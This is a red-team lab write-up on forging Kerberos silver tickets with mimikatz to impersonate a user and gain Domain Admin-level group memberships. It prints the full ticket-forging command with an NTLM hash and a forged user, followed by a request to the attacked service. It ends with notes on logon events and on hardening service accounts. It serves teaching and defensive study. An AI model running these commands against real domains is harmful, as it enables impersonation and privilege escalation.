 ```yaml
---
description: Credential Access
---
```


# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in [T1208: Kerberoasting](./) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker. 

Below is a table with values supplied to mimikatz explained and the command itseld:

| Argument | Notes |
| :--- | :--- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user` |
| /target:dc-mantvydas.offense.local | server hosting the attacked service for which the TGS ticket was cracked |
| /service:http | service type being attacked |
| /rc4:a87f3a337d73085c45f9416be5787d86 | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case |
| /user:beningnadmin | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155 | Forging user's RID |
| /ptt | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately |

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Getting a user&apos;s SID](../../.gitbook/assets/silver-tickets-whoami.png)

Creating the ticket with mimikatz and checking available tickets in memory with `klist` - note how the ticket specified our new client `benignadmin`

![](../../.gitbook/assets/silver-tickets-generated-ticket%20%282%29.png)

Note in the above mimikatz window the Group IDs which the fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name |
| :--- | :--- |
| 512 | Domain Admins |
| 513 | Domain Users |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](../../.gitbook/assets/silver-tickets-4624%20%281%29.png)

It is better not to use user accounts for running services on them or if you do use them, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently. Better yet, follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782%28v=ws.11%29) for running services on.

{% embed data="{\"url\":\"https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets\",\"type\":\"link\",\"title\":\"Impersonating Service Accounts with Silver Tickets \| Insider Threat Blog\",\"description\":\"How attackers use Kerberos silver tickets to exploit service accounts without creating network traffic or event logs to avoid detection.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Banner-Blog-Series-1024-x-326-2.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}

{% embed data="{\"url\":\"https://adsecurity.org/?p=2011\",\"type\":\"link\",\"title\":\"How Attackers Use Kerberos Silver Tickets to Exploit Systems – Active Directory Security\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://adsecurity.org/wp-content/uploads/2015/11/SilverTicket-DC-CIFS.png\",\"width\":600,\"height\":173,\"aspectRatio\":0.28833333333333333}}" %}

